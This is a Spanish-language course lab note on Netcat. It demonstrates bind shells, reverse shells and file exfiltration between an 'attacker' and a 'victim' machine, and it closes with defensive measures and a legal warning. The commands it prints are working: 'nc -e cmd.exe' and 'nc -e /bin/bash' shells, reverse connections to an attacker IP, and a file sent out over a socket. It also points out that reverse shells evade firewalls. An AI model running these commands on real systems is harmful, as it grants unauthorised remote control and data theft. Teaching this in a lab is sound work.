

# 🔌 Práctica de Conexiones con Netcat — Directas e Inversas

> [!abstract] Enunciado y Fundamento Teórico
> En la administración de sistemas y auditoría de ciberseguridad, el establecimiento de canales de comunicación interactivos entre equipos remotos es esencial. **Netcat** (conocida comúnmente como la *"navaja suiza de TCP/IP"*) permite leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP.
> 
> Esta práctica analiza en profundidad los dos paradigmas fundamentales de comunicación remota: las **conexiones directas** (*Bind Shell*) y las **conexiones inversas** (*Reverse Shell*).

---

## 🌐 Tipos de Conexiones



### 🔴 Conexión Directa (Atacante → Víctima)
* En este modelo, el atacante se conecta directamente a la máquina objetivo utilizando la dirección IP de esta última.
* **Roles:** El equipo atacante actúa como **cliente** y la máquina víctima actúa como **servidor** (manteniendo un puerto abierto en escucha).
* **Flujo:** `Atacante (cliente) ──► Conecta a ──► Víctima (servidor en escucha)`

### 🔵 Conexión Inversa (Víctima → Atacante)
* El equipo objetivo o víctima inicia activamente la conexión de salida hacia el atacante a través de un comando o software malicioso.
* **Roles:** La víctima actúa como **cliente** y el atacante actúa como **servidor** (en espera con un puerto a la escucha).
* **Flujo:** `Víctima (cliente) ──► Conecta a ──► Atacante (servidor en escucha)`
* **Ventaja crítica de explotación:** Al tratarse de tráfico de red saliente (*egress*), **consigue eludir la mayoría de cortafuegos (firewalls) y enrutadores NAT perimetrales**, ya que comúnmente permiten conexiones hacia el exterior. Además, el atacante **NO necesita conocer la dirección IP previa de la víctima**.

---

## 🛠️ Herramienta: Netcat (`nc`)

Netcat viene preinstalado por defecto en la mayoría de distribuciones orientadas a auditorías de seguridad como **Kali Linux** y **Parrot OS**. Para plataformas Microsoft Windows, se requiere un binario compilado compatible.

* 🌐 **Repositorio oficial Windows (GitHub):** [diegocr/netcat](https://github.com/diegocr/netcat)
* 📦 **Recurso local disponible offline:**
  * Archivo en el vault: `archivos_descargados/paquetes_7z/nc.7z`
  * Contraseña de descompresión: `123456`

---

## 🎯 Prueba de Concepto (PoC)

Para ejecutar este laboratorio se parte del siguiente esquema de dos máquinas en la misma red local o entorno virtualizado:
* **Máquina A 🎭 (Atacante):** IP de ejemplo `192.168.1.50`
* **Máquina V 🎯 (Víctima):** IP de ejemplo `192.168.1.100`

---

### 🔴 Módulo 1: Conexión Directa (Bind Shell)

#### 📡 Escenario 1: Conexión Simple (Chat Bidireccional)
Permite verificar la conectividad estableciendo un túnel de texto directo entre terminales:

1. **En la Máquina Víctima (Servidor):** Se pone en modo escucha en el puerto TCP `2000`:
   ```bash
   nc -lvvp 2000
   ```
   > [!warning] Alerta de Cortafuegos
   > Si la víctima corre Windows, el Firewall del sistema operativo desplegará una alerta solicitando autorización para que el binario `nc.exe` pueda abrir el puerto en interfaces de red.

2. **En la Máquina Atacante (Cliente):** Se conecta a la IP y puerto del objetivo:
   ```bash
   nc 192.168.1.100 2000
   ```

3. **Resultado:**
   Se establece un canal de texto bidireccional. Todo mensaje tecleado en una consola aparecerá de inmediato en la otra.

---

#### 💀 Escenario 2: Conexión Directa con Shell Remoto (Bind Shell)
En este escenario, el proceso en escucha en la víctima asocia la entrada/salida de un intérprete de órdenes al socket de red:

1. **En la Máquina Víctima:**
   * **En entorno Windows:**
     ```cmd
     nc -lvvp 2000 -e cmd.exe
     ```
   * **En entorno Linux:**
     ```bash
     nc -lvvp 2000 -e /bin/bash
     ```

2. **En la Máquina Atacante:**
   Establece la conexión entrante:
   ```bash
   nc 192.168.1.100 2000
   ```

3. **Resultado e Impacto:**
   > [!danger] Compromiso del Sistema
   > Tras conectar, el atacante no ve un mensaje de chat, sino el prompt interactivo de la víctima (`cmd.exe` o `bash`). El atacante tiene ejecución de comandos arbitraria con los privilegios del usuario que ejecutó Netcat en la víctima.

---

#### 📝 Parámetros Clave de Netcat

| Parámetro | Significado Técnico | Función en la Conexión |
| :---: | :--- | :--- |
| `-l` | *Listen mode* | Coloca a Netcat a la espera de conexiones entrantes (modo servidor). |
| `-v` | *Verbose* | Muestra detalles informativos durante la conexión. |
| `-vv` | *Very verbose* | Aumenta el nivel de detalle y depuración del socket. |
| `-p <puerto>` | *Port* | Especifica el número de puerto local sobre el que vincular el socket. |
| `-e <prog>` | *Execute* | Redirige `stdin`, `stdout` y `stderr` del binario especificado (`cmd.exe`, `/bin/bash`) a través del socket tras conectarse. |

---

### 🔵 Módulo 2: Conexión Inversa (Reverse Shell)

> [!tip] Ventaja Estratégica del Reverse Shell
> Al ser la máquina víctima quien lanza la conexión de red saliente hacia el servidor del atacante, las políticas típicas de los firewalls (que bloquean todo el tráfico entrante no solicitado pero permiten el tráfico saliente común) son eludidas con total éxito.

---

#### 💀 Escenario 1: Shell Inverso Interactivo
1. **En la Máquina Atacante:** Se coloca a la escucha anticipadamente esperando la llamada:
   ```bash
   nc -lvvp 2000
   ```

2. **En la Máquina Víctima:** Ejecuta la orden que conecta hacia el servidor del atacante entregándole su terminal:
   * **En entorno Windows:**
     ```cmd
     nc 192.168.1.50 2000 -e cmd.exe
     ```
   * **En entorno Linux:**
     ```bash
     nc 192.168.1.50 2000 -e /bin/bash
     ```

3. **Resultado:**
   El atacante recibe automáticamente una sesión interactiva del intérprete de comandos de la víctima.

---

#### 📁 Escenario 2: Transferencia y Exfiltración de Archivos
Netcat permite la transferencia limpia de ficheros mediante los operadores estándar de redirección de flujo del sistema operativo:

1. **En la Máquina Atacante (Receptor):**
   Queda en escucha y redirige la salida entrante hacia un archivo de destino:
   ```bash
   nc -lvvp 2000 > archivo_recibido.txt
   ```
   *(Todo byte transmitido por el socket se escribirá en `archivo_recibido.txt`).*

2. **En la Máquina Víctima (Emisor / Exfiltrador):**
   Inicia la conexión e inyecta el contenido del archivo local en el flujo de datos:
   ```cmd
   nc 192.168.1.50 2000 < archivo_a_enviar.txt
   ```

---

#### 🔄 Operadores de Redirección Explicados

| Operador | Denominación | Mecanismo y Flujo |
| :---: | :--- | :--- |
| `>` | **Redirección de Salida** | Captura la salida del socket y la almacena en un archivo local. Sobreescribe si existe. |
| `<` | **Redirección de Entrada** | Lee los datos contenidos en un archivo y los inyecta como entrada estándar (`stdin`) para ser transmitidos por la red. |

---

## 📊 Resumen Comparativo de Conexiones

| Criterio Técnico | 🔴 Conexión Directa (Bind) | 🔵 Conexión Inversa (Reverse) |
| :--- | :--- | :--- |
| **Quién se coloca a la escucha (`-l`)** | Máquina Víctima | Máquina Atacante |
| **Quién inicia la conexión** | Máquina Atacante | Máquina Víctima |
| **Dirección IP requerida previamente** | IP de la Víctima (debe ser accesible) | IP del Atacante (pública o alcanzable) |
| **Comportamiento ante Cortafuegos / NAT** | ❌ Fácilmente bloqueado por firewall perimetral | ✅ Atraviesa NAT y firewalls estándar sin abrir puertos |
| **Escenario común de uso** | Servicios públicos, daemons y servidores comprometidos | Malware, troyanos, payloads de phishing y macros maliciosas |

---

## ⚠️ Consideraciones de Seguridad y Defensas

> [!caution] Medidas de Protección y Detección
> * **Cortafuegos Host y de Red:** Implementar políticas restrictivas tanto para tráfico entrante (*ingress*) como saliente (*egress filtering*), bloqueando puertos inusuales (como el `2000`).
> * **Monitorización de Red y NDR:** Detección de conexiones persistentes con patrones anómalos o tráfico interactivo sin cifrar.
> * **Sistemas EDR y Antivirus:** Identificación y bloqueo de binarios conocidos de Netcat (`nc.exe`, `ncat.exe`), especialmente cuando intentan asociar manejadores de `cmd.exe` o `powershell.exe`.
> * **Principio de Mínimo Privilegio:** Restringir privilegios de cuentas de usuario para impedir la apertura no autorizada de sockets en puertos bajos o la ejecución de herramientas de administración no firmadas.
> * **Sistemas IDS / IPS:** Reglas de detección Snort / Suricata para firmas comunes de shells interactivos no cifrados a través de TCP.

> [!danger] Uso Ético y Advertencia Legal
> El material y comandos contenidos en esta prueba de concepto tienen fines estrictamente didácticos e instructivos dentro del certificado **IFCT0109**. El despliegue de shells remotos contra sistemas sin autorización expresa por escrito es ilegal y punible por el Código Penal. Practica únicamente en laboratorios controlados y entornos de prueba autorizados.

---

## 🔗 Referencias Cruzadas y Enlaces Relacionados
* 💻 [[02 - MODULOS/Prácticas (PoCs)/MS-DOS/01 - Comandos de MS-DOS|Práctica 01 — Comandos de MS-DOS y Batch Scripting]]
* 📄 [[03 - EXTRA/Documentos/MS-DOS CheatSheet|MS-DOS CheatSheet de Comandos Rápidos]]
* 🗂️ [[02 - MODULOS/05 - Prácticas (PoCs)|Catálogo General de Prácticas (PoCs)]]
* 📦 Binario local: `archivos_descargados/paquetes_7z/nc.7z` (Pass: `123456`)
